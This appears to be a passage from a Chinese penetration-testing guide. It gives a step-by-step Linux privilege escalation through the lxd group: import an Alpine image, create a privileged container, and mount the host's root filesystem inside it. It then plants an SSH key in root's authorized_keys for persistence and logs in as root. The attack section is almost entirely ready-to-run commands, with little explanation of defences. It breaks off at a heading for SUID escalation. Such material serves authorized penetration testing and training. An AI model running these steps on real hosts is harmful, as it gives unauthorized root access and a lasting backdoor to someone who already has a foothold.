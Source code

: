 - https://www.cnblogs.com/jason-huawen/p/17016263.html

[LXD](https://linuxcontainers.org/lxd/introduction/) 是基于LXC容器的管理程序（hypervisor），由开发 Ubuntu 的公司 Canonical 创建和维护。包含3个组件：
- `lxd` ：系统守护进程，它导出能被本地和网络访问的 RESTful API
- `lxc` ：客户端命令行，它能跨网络管理多个容器主机。
- `nova-compute-lxd` ： OpenStack Nova 插件，它使 OpenStack 如虚拟机一般，管理容器。

==使用条件：==
1. 已经获得目标主机的Shell
2. 可用用户属于lxd组

==利用工具：==
```shell
git clone https://github.com/saghul/lxd-alpine-builder.git

wget https://github.com/saghul/lxd-alpine-builder/blob/master/alpine-v3.13-x86_64-20210218_0139.tar.gz
```
==利用方法：==

将alpine镜像导入lxd,并验证导入是否成功
```
lxc image import alpine.tar.gz --alias alpine && lxd init --auto && lxc image list
```
运行命令创建容器：
```
lxc init alpine privesc -c security.privileged=true && lxc list
```
把主机上的根目录（`/`）挂载到容器内的 `/mnt/root` 目录
```
lxc config device add privesc giveMeRoot disk source=/ path=/mnt/root recursive=true
```
生成公钥
```bash
ssh-keygen -t rsa
```
进入镜像
```
lxc start privesc
```
访问目标主机里的文件系统
```
lxc exec privesc sh
```
进入映射后的root目录
```
cd /mnt/root/root
```
权限持久化：
```
cat /mnt/root/home/machineboy/.ssh/id_rsa.pub >> /mnt/root/root/.ssh/authorized_keys
```
权限验证：
```bash
achineboy@kb-server:~$ ssh root@127.0.0.1
```
## 6.8、SUID提权
